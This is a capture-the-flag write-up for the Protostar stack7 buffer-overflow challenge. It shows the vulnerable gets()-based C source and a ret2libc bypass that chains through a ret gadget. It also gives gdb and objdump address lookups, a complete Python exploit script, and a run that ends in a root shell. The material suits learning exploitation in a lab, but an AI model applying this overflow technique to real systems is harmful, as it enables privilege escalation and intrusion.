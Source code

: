 ```yaml
---
layout: post
title: "Protostar stack07 writeup"
tags: [protostar]
comments: false
---
```



We are given a source code for this challenge.

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

differing from stack06 we can't just use ret2libc technique because of these lines of codes since the libc address is 0xb7e97000 it will just exit out of the program

```
  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }
```

So what I thought was, what if I just ret and exit out of the function and then to the ret2libc and this could be possible because the ret instruction's address was in 

```
user@protostar:/opt/protostar/bin$ objdump -D stack7 | grep ret
 8048383:       c3                      ret  
```

so the exploit will look like

```
offset+ret address +sys+exit+/bin/bash address
```

offset is 80 and we can know that from the previous stack06 cahllegne

system&exit address
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
(gdb) 
```

/bin/bash address
```
user@protostar:/opt/protostar/bin$ strings -t d  /lib/libc.so.6  | grep /bin/sh
1176511 /bin/sh
```

so the exploit code will be 
```
user@protostar:/opt/protostar/bin$ cat /tmp/exploit.py 
import struct

base = "A"*80
ret = struct.pack("I", 0x8048383)
sys = struct.pack("I", 0xb7ecffb0)
exit = struct.pack("I",0xb7ec60c0)
bash = struct.pack("I", 0xb7e97000+0x11f3bf)

exploit = base+ret+sys+exit+bash

print exploit
```

run it
```
user@protostar:/opt/protostar/bin$ (python /tmp/exploit.py;cat) | ./stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�AAAAAAAAAAAA������`췿c��
whoami
root
```